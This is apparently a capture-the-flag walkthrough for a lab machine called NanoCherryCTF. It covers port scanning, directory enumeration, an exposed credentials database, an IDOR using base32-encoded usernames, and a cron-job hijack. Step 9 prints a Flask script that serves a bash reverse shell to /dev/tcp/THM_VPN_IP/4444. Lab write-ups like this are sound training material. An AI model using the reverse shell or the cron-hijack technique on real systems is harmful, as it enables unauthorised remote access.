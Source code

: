 # NanoCherryCTF Walkthrough

## Step 1: Update /etc/hosts and Read the Story

-   **Method:** Go to the `/etc/hosts` folder and add `TARGET_IP` next to `cherryontop.thm`.
-   **Answer:** No answer needed.

## Step 2: Port Scanning

-   First, we will perform a port scan to see which ports are open and if we can gather any useful information from them.

`nmap -sV [TARGET_MACHINE_IP] -T5` 

### Scan Results:

`Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-05 14:34 EEST
Nmap scan report for nano.cherryontop.thm (10.10.232.170)
Host is up (0.092s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 12.36 seconds` 

## Step 3: Directory Enumeration

-   Next, we execute a directory enumeration with the following command:

`gobuster dir -u http://10.10.232.170 -w /usr/share/wordlists/dirb/big.txt` 

### Gobuster Scan Results:
============================================================ Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://10.10.232.170 [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/dirb/big.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /.htaccess (Status: 403) [Size: 278] /.htpasswd (Status: 403) [Size: 278] /css (Status: 301) [Size: 312] [--> http://10.10.232.170/css/] /images (Status: 301) [Size: 315] [--> http://10.10.232.170/images/] /jquery (Status: 301) [Size: 315] [--> http://10.10.232.170/jquery/] /js (Status: 301) [Size: 311] [--> http://10.10.232.170/js/] /server-status (Status: 403) [Size: 278] Progress: 20469 / 20470 (100.00%) =============================================================== Finished ===============================================================`

-   We didn't find anything useful here either.

## Step 4: SSH Login

-   Next, using the provided credentials (username and password), we will connect via SSH:

`ssh notsus@10.10.232.170` 

-   **Password:** `dontbeascriptkiddie`

## Step 5: Check Users

-   After logging in and going to the home directory, we can see that there are four users:
`notsus@nanocherryctf:/home$ ls
bob-boba  chad-cherry  molly-milk  sam-sprinkles` 

## Step 6: Find Subdomains

-   Knowing that `cherryontop.thm` runs on Apache (from the port scan), we will execute the following command to find all subdomains:
`grep -iR ServerName /etc/apache2/sites-enabled/` 

### Results:
`notsus@nanocherryctf:/home$ grep -iR ServerName /etc/apache2/sites-enabled/
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      # The ServerName directive sets the request scheme, hostname and port that
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      # redirection URLs. In the context of virtual hosts, the ServerName
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      #ServerName www.example.com
/etc/apache2/sites-enabled/a.cherryontop.thm.conf:      ServerName cherryontop.thm
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      # The ServerName directive sets the request scheme, hostname and port that
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      # redirection URLs. In the context of virtual hosts, the ServerName
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      #ServerName www.example.com
/etc/apache2/sites-enabled/b.cherryontop.thm.conf:      ServerName nano.cherryontop.thm
grep: /etc/apache2/sites-enabled/000-default.conf: No such file or directory` 

-   After finding `nano.cherryontop.thm`, we will add it to the `/etc/hosts` file and then access the page.

## Step 7: Admin Login

-   From the page, we go to the Admin `login.php` page.
-   At this point, the first thought was SQL injections, but the page does not have such a vulnerability.
-   Searching for directories, I found `/users.db`.

### Gobuster Results for `/users.db`:

`=============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) [+] Url: http://nano.cherryontop.thm [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/customwordlists/top-100-subdomains.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /users.db (Status: 200) [Size: 12288] /login.php (Status: 200) [Size: 2310] Progress: 2019 / 2020 (99.95%) =============================================================== Finished ===============================================================`

-   Examining this file, we can easily find the login credentials:
-   **Username:** `puppet`
-   **Password:** `master`
-   With these, we can log into the admin portal. From there, we find Molly's flag: **Molly's Flag:** THM{B________1}
-   We also get her password to log in via SSH.

## Step 8: Connect to Chad
-   After logging in via SSH, we find `chads-key1.txt`:

`chads-key1.txt: n________y` 

-   Next, we head to the page `http://cherryontop.thm/content.php`.
-   After testing some facts, we notice that the page is vulnerable to an IDOR attack.
-   After analyzing the URL `/content.php?facts=2&user=I52WK43U`, I observed that the user `I52WK43U` is the word `Guest` encrypted with base32.
-   After encrypting all users with base32 using Burp Suite, I found that for Fact 43 of `sam-sprinkles` (`facts=43&user=ONQW2LLTOBZGS3TLNRSXG===`), it displayed the message: `My secret web hideout in case I forget my ssh credentials again`
-   **sam-sprinkles:** `S____________3`
-   After connecting with the above credentials, we also find `chads-key2.txt`:
`chads-key2.txt: w____3` 

## Step 9: Checking Cron Jobs

-   Checking all the crontabs, we see that `bob-boba` has a cron job running every minute.
-   It looks like `bob-boba` is trying to fetch a script from `cherryontop.tld:8000` and execute it.
-   After adding the `THM_VPN_IP cherryontop.tld` to `/etc/hosts`, we can now host a simple Flask server to serve the `coinflip.sh` script with reverse shell content.
### `exploit.py`:
`from flask import Flask
app = Flask(__name__)

@app.route('/home/bob-boba/coinflip.sh')
def hello_world():
    return """#!/bin/bash
bash -c 'bash -i >& /dev/tcp/THM_VPN_IP/4444 0>&1'
"""
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)` 

-   Meanwhile, we also open a listener.

## Step 10: Gaining Access

-   After getting access to `bob-boba`, we find the last key:

  `chads-key3.txt: 7_______3` 

-   Finally, we can log in via SSH with `chad-cherry` using all keys obtained, and find `chad's flag`:
- 
`THM{I_W_______T}`